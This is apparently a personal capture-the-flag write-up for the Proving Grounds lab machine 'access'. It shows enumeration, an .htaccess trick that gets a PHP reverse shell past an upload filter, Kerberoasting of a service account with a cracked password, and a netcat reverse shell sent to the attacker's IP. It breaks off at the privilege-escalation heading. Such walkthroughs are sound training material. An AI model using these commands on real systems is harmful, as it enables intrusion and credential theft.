# access

## Enumeration

### Nmap

```
# Nmap 7.94SVN scan initiated: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.185.187
Nmap scan report for access.offsec (192.168.185.187)
Host is up (0.053s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-09 20:13:57Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-09T20:14:56
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   52.15 ms 192.168.45.1
2   51.99 ms 192.168.45.254
3   52.79 ms 192.168.251.1
4   52.76 ms access.offsec (192.168.185.187)
```

My initial read is that this is likely a domain controller. The biggest reason I think this is port 88 (Kerberos) being open. This plus the open LDAP port (3268) makes this being a domain controller seem likely.

### Port 53

DNS obviously. I used some of the techniques listed [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns) to enumerate DNS. I started with just checking to see if I could retrieve a record. I assumed there would be an `access.offsec` as it follows the established naming convention. I was able to get an A record for that domain name:

<figure><figcaption><p>A record for access.offsec</p></figcaption></figure>

I then made several attempts at a zone transfer but none were successful:

<figure><figcaption><p>Failed zone transfer</p></figcaption></figure>

There does not seem to be a ton to do here so I move on.

### Port 80

Port 80 is hosting a website. It appears to be the homepage of some sort of conference:

<figure><figcaption><p>Landing page on port 80</p></figcaption></figure>

I run feroxbuster against the port:


```bash
feroxbuster -L 20 -w ./enumeration/web_enum.txt -k -x @./enumeration/ferox_extensions.txt -C 404 -E -r -u http://access.offsec -o ./enumeration/p80.feroxbuster
```


* `web_enum.txt` is a copy of SecLists Discovery/Web-Content/big.txt with some custom words added (e.g. `access` as that is the machine name)

I immediately notice some interesting things in the output:

<figure><figcaption><p>Partial feroxbuster output</p></figcaption></figure>

The `ticket.php` file is mostly interesting because it tells me PHP is running on the web server. PHP can be quite difficult to secure properly so it is good to note.

The second interesting entry is the uploads/ directory. I navigate there and indeed find a directory listing of uploads:

<figure><figcaption><p>Uploads directory listing</p></figcaption></figure>

If I can find a way to upload a reverse shell (PHP or otherwise) I can probably navigate to it here.

There is a contact form but submitting anything results in an error:

<figure><figcaption><p>Error in contact form</p></figcaption></figure>

### Port 88

This port is part of what makes me think this is a domain controller. I attempted to use Impacket's GetUserSPNs but was unsuccessful due to a password prompt:

<figure><figcaption><p>Failed GetUserSPNs</p></figcaption></figure>

### Ports 135 & 539

These ports are part of the [RPC protocol](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page). I followed the suggestions here and ran Impacket's `rpcdump` to see if there was anything interesting, but none of the [notable RPC interfaces](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#notable-rpc-interfaces) were in the output:


```bash
impacket-rpcdump 192.168.185.187 -p 135 > access.rpcdump
```


### Ports 139 & 445

Some SMB enumeration was done with Nmap:

```
...
Host script results:
| smb2-time: 
|   date: 2024-06-09T20:14:56
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
...
```

I ran `smbmap` to see if anything was found but I saw nothing:

<figure><figcaption></figcaption></figure>

I also tried running `crackmapexec` to brute-force the admin login (as suggested [here](https://www.reddit.com/r/kali4noobs/comments/tatllp/smb\_brute\_forcing/)) but it failed:


```bash
crackmapexec smb 192.168.185.187 -u admin -p /usr/share/wordlists/rockyou.txt --shares
```


### Port 9389

[Port 9389](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements#active-directory-local-security-authority) appears to be part of [Active Directory Web Services](https://www.isdecisions.com/glossary/active-directory-web-services/) (ADWS). As far as I can tell there is not much to be done on this port.

## Foothold

At this point the only obvious entry point is some sort of malicious upload. Fortunately I eventually find a location for file uploads. In the tickets purchase menu there is a section to upload a photo, presumably for the conference ID):

<figure><figcaption><p>File upload location</p></figcaption></figure>

I immediately try uploading a PHP reverse shell. Unfortunately it seems someone bothered to enforce file extensions on the upload:

<figure><figcaption><p>Error message</p></figcaption></figure>

I next try just changing the shell extension from .php to .jpg (creating test.jpg). I upload this file successfully and try accessing it from the /uploads directory. I can see the file but when I attempt to access it an error occurs on the server:

<figure><figcaption><p>File extension changed error</p></figcaption></figure>

This indicates the server is indeed careful about trying to render the file as an image. When I examined the request in Burp I found that it was actually sending the text of the PHP shell back and that was presumably causing the processing error when attempting to render the text as a JPEG.

I attempted messing with the HTTP [Accept header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept) in Burp to try to trick it into executing the PHP. I was still able to see the PHP as text but not get it executed.

I also tried a double extension (e.g. `rs.php.png`) to see if that might help but it did not.&#x20;

At this point I was stuck for awhile. Through brute force I found that all PHP-type extensions (`.php7`, `.phps`, `.phtml`, etc.) were disallowed. Double extension in the other direction (e.g. `rs.png.php`) was also disallowed.

### File Type Restrictions in Apache

I decided it was time to understand how the file type is being restricted. There are a couple of ways to restrict the file upload on an Apache & PHP server, but the easiest and likely most common is to use PHP upload script to check file extension and allow/disallow based on some criteria ([example](https://dev.to/einlinuus/how-to-upload-files-with-php-correctly-and-securely-1kng)). This can be done in either a whitelist or blacklist manner. To check which is being used I will try uploading some different extension types. I create a text file called test.fake as .fake is not a valid extension. If invalid extensions and PHP extensions get rejected it is likely a whitelist approach where only specific image file types are accepted.


<figure><figcaption><p>Valid Request</p></figcaption></figure>

I can see the file in the `uploads/` directory:

<figure><figcaption><p>test.fake in uploads</p></figcaption></figure>

This means it is likely a specific blacklist for PHP-type files. That means I can upload a PHP shell with an arbitrary file extension but I will have to trick the machine into executing it as PHP.

### Specifying MIME Type in Apache

Fortunately Apache has a mechanism for this. A `.htaccess` file can be used to specify the MIME type for a specific file extension as seen [here](https://cets.seas.upenn.edu/answers/addtype.html).

Apache does allow multiple .htaccess files in different directory. If a directory contains an .htaccess file it overrides any other configuration provided the directory [is configured to allow](https://www.digitalocean.com/community/tutorials/how-to-use-the-htaccess-file#enabling-an-htaccess-file) an `.htaccess` file.

### Exploit Vector

With all this in mind I will try to:

1. Create a custom `.htaccess` file configured to use PHP for an arbitrary file type (e.g. `.bad`)
2. Upload created `.htaccess` file causing it to end up in the web servers `uploads/` directory
3. Upload PHP reverse shell with file type specified in step 1 (`shell.bad`)
   * If the `.htaccess` override is successful, the `.bad` file will be run with as PHP

#### Creating the .htaccess File

According to [this SO comment](https://stackoverflow.com/a/14878513) the MIME type for PHP is `application/x-httpd-php`. This [forum post](https://serverfault.com/a/131210) indicates that `AddType` and `AddHandler` are the .htaccess directives that must be used. I am going to use both because they do subtly different things. The created `.htaccess` file is:


```
AddType application/x-httpd-php .bad
AddHandler application/x-httpd-php .bad
```


#### Uploading The File

I upload the file via the Tickets page:

<figure><figcaption><p>Uploading .htaccess</p></figcaption></figure>

The request succeeds and I am set to try uploading the shell.

#### Uploading The Shell

I now copy my reverse PHP shell into a file called `rs.bad`. I upload that via the Tickets page and it succeeds:

<figure><figcaption><p>Successfully uploaded .bad file</p></figcaption></figure>

Now I set up a listener and attempt navigating to the file. I am successful and have achieved user-level access:

<figure><figcaption><p>User access achieved</p></figcaption></figure>

## Privilege Escalation

### Enumeration

I spend a long time poking around the machine manually. I run winPEAS with the command:

```sh
.\peas.exe -a quiet log=svc_apache.peas
```

Nothing super useful turned up. Also it took a long time.

While just poking around the machine I found a `svc_mssql` user (has home in the `C:\Users` directory). I could not find readily accessible credentials in configs or anything.

I was stuck here for awhile before it occurred to me that this machine is likely a domain controller as discussed in the machine enumeration section. This opens up some new enumeration techniques.&#x20;

I decide to look into whether there were any AS-REP Roast-able or Kerberoastable users. I imported [Enumerate-AD](../../windows/active-directory/enumeration/manual.md#enumerate-a-d) and got to work. First I found all SPNs in the domain with the command `Get-AllSPNs`. In the output I noted that there was an `MSSQL` entry:

<figure><figcaption><p>MSSQL amongst SPNs </p></figcaption></figure>

I recall that the prerequisites for [Kerberoasting](../../windows/active-directory/authentication/attacking-ad-authentication/kerberoasting.md) are:

1. Access to a valid TGT (I have a TGT in the current session as the user `svc_apache` based on having a shell session)
2. SPN which will be used to request TGS for offline cracking (have one of these with `MSSQLSvc`)

### Kerberoasting

#### Obtaining the Hash

I recall that [Rubeus](../../windows/active-directory/authentication/attacking-ad-authentication/kerberoasting.md#rubeus) can be used to extract hashes for Kerberoasting. I download it and run with the command:

```sh
.\Rubeus.exe kerberoast /tgtdeleg /outfile:hashes.kerberoast
```

Success! I captured the hash for `svc_mssql`:

<figure><figcaption><p>Hash extracted for Kerberoasting</p></figcaption></figure>

#### Cracking the Hash

I use Hashcat for cracking the hash as seen [here](../../windows/active-directory/authentication/attacking-ad-authentication/kerberoasting.md#hashcat):


```bash
hashcat -m 13100 -o cracked.kerberoast hashes.kerberoast /usr/share/wordlists/rockyou.txt
```


It runs quickly and I get the cracked password:

<figure><figcaption><p>Cracked hash</p></figcaption></figure>

It is worth noting [this walk-through](https://medium.com/@Dpsypher/proving-grounds-practice-access-b95d3146cfe9) for the machine contained a different technique for obtaining the hash but however it is obtained it cracks the same. `Rubeus.exe` was much easier than their offering.

### Leveraging the Credentials

I can move laterally with the `svc_mssql:trustno1` credentials. Perhaps this account will have an easier path to escalation.

I tried using the [`runas`](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) utility but my shell was not stable enough to catch the password prompt interactively.

Next I check the SMB shares available to the new user with `crackmapexec`:


```bash
crackmapexec smb 192.168.160.187 -u svc_mssql -d access.offsec -p trustno1 --shares
```


* `--shares` enumerates the available shares and the permissions for each

<figure><figcaption><p>crackmapexec output</p></figcaption></figure>

Nothing here is incredibly helpful.

### RunAsCs

I struggled for awhile to find a solution to the problem of how to run commands as `svc_mssql`. I eventually found [`RunAsCs`](https://github.com/antonioCoco/RunasCs). RunAsCs is a open-source utility to improve the functionality of the builtin `runas` command.

It is helpful in the current context because it allows the username and password to both appear as command line arguments.

It comes in both a PowerShell and `.exe` flavor.

#### Invoke-RunAsCs

The [PowerShell version](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) of the utility can be imported as a module and then used:


```powershell
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
```


<figure><figcaption><p>PowerShell version</p></figcaption></figure>

#### RunAsCs.exe

The command for using the `.exe` is:

```sh
.\RunAsCs.exe "svc_mssql" "trustno1" "whoami"
```

This is the version I prefer using. It succeeded in running `whoami` as `svc_mssql` (green box in screenshot). It recommended a different flag configuration but that caused an error (red box in screenshot) so I did not continue using it:

<figure><figcaption><p>.exe version</p></figcaption></figure>

### Second Reverse Shell

With the ability to run commands as `svc_mssql` I will attempt to launch a reverse shell. First I download `nc.exe` and then prepare to launch the shell with the command:


```sh
.\RunAsCs.exe "svc_mssql" "trustno1" ".\nc.exe 192.168.45.234 445 -e cmd.exe"
```


This succeeds in creating a shell on port 445:

<figure><figcaption><p>Catching svc_mssql's shell</p></figcaption></figure>

### Escalation via SeManageVolumePrivilege

